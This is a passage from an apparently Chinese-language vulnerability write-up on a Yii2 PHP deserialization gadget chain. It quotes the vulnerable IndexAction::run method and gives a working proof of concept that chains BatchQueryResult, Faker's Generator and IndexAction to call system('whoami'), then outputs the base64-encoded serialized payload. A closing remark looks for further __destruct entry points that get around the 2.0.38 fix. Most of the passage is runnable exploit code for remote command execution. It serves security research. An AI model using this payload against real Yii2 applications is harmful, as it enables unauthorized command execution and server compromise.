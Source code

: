 ```php
public function run()
    {
        if ($this->checkAccess) {
            call_user_func($this->checkAccess, $this->id);
        }

        return $this->prepareDataProvider();
    }
```
poc

```php
<?php
namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'system';
            $this->id = 'whoami';
        }
    }
}

namespace Faker{
    use yii\rest\IndexAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            $this->formatters["close"] = [new IndexAction, 'run'];
        }
    }
}

namespace yii\db{
    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;

        public function __construct(){
            $this->_dataReader = new Generator;
        }
    }
}
namespace{
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
}
?>
```
# POC3
作者在2.0.38只修复了BatchQueryResult，那么我们能不能再找一个__destruct入口函数去调用call方法，接上后面的链子呢？
全局搜索__destruct下，找到这个类也可以
